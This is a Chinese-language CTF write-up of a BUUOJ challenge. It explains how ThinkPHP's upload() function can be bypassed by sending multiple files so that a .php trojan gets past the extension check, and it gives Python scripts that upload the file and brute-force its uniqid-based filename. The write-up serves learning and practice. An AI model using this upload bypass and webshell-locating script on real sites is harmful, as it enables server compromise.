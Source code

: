 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-27
---
```


## 思路

1.打开网页，首先是一段php源码，如下：

```php
 <?php 
    namespace Home\Controller; 
	use Think\Controller; 
	class IndexController extends Controller {   
        public function index()   
        {     
            show_source(__FILE__);   
        }   
        public function upload()   
        {     
            $uploadFile = $_FILES['file'] ;         
            if (strstr(strtolower($uploadFile['name']), ".php") ) {       
                return false;     
            }         
            $upload = new \Think\Upload();// 实例化上传类     
            $upload->maxSize = 4096 ;// 设置附件上传大小     
            $upload->allowExts = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型     
            $upload->rootPath = './Public/Uploads/';// 设置附件上传目录     
            $upload->savePath = '';// 设置附件上传子目录     
            $info = $upload->upload() ;  //此处存在漏洞   
            if(!$info) {// 上传错误提示错误信息      
                $this->error($upload->getError());      
                return;     
            }else{// 上传成功 获取上传文件信息      
                $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
                echo json_encode(array("url"=>$url,"success"=>1));     
            }   
        } 
    } 
```

分析该段代码：

- 首先会获取上传文件的文件名，并将其转化为小写，判断是否包含.php。

- 限制了上传文件的最大大小：4096

- 限制了可以上传的文件类型：jpg、gif、png、jpeg

- thinkphp**默认上传路径**是/home/index/upload

- 这里调用**upload()函数**，该函数存在一个漏洞，

  在不传参时为多文件上传，整个$FILES数组的文件都会上传保存，但该题只限制了$_FILES[file]的上传后缀，因此就可以通过上传多文件绕过php后缀限制。
  
  

2. 该题与常规的有文件上传按钮的题目不同，需要自己构建POST请求，上传文件。--》可以写python脚本实现

   > $_FILES是一个预定义的数组，用来获取通过POST方法上传文件的相关信息。
   >
   > 单个文件上传--》$_FILES为二维数组
   >
   > 多个文件上传--》$_FILES为三维数组

   利用python进行POST请求上传文件，格式如下：

   ![img](./images/202011201118394.png)

3. thinkphp上传文件时，文件名是按顺序递增的

采用下面的脚本，上传多个文件，来绕过对文件后缀名的检测

> 查看thinkphp源码得知文件名是通过uniqid函数生成的，uniqid函数是基于**以微秒计**的当前时间计算的，两个同时上传生成的文件名相差不会太远，因此可以在两个文件名之间进行暴力遍历，找到上传的木马文件的文件名。

```python
import requests

url = 'http://7a4fb2e4-7ba4-49b0-a137-450ceea340d1.node3.buuoj.cn/index.php/home/index/upload'
file1 = {'file':open('special_dict.txt','r')}
file2 = {'file[]':open('test.php','r')}//upload()不传参时即是批量上传所以用[]

r = requests.post(url,files = file1)
print(r.text)

r = requests.post(url,files = file2)
print(r.text)

r = requests.post(url, files = file1)
print(r.text)
```

4. 可以看到上传的两个txt文件的文件名前几位都相同，只有最后五位不同，因此可以只遍历后五位，找出上传的木马php文件的文件名，然后再进行连接。

<img src="./images/image-20201227212507106.png" alt="image-20201227212507106" style="zoom:50%;" />

​	进行遍历的脚本为：

```python
dir ='abcdef0123456789'
for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://e2a3bb2f-2911-4b51-b679-0d15f7f3899b.node3.buuoj.cn/Public/Uploads/2020-12-27/5fe88b1b{}{}{}{}{}'.format(i,j,k,x,y)
                    #print(url)
                    print("next")
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
```



## 总结

- 本题主要考查的是对thinkphp的upload文件上传漏洞
  - 上传多个文件，即可绕过对文件后缀名的检测，成功上传php文件
  - upload函数默认上传的文件路径为/home/index/upload
  - thinkphp上传文件后会修改文件名，根据上传时间生成，因此同时上传的文件一般文件名比较接近。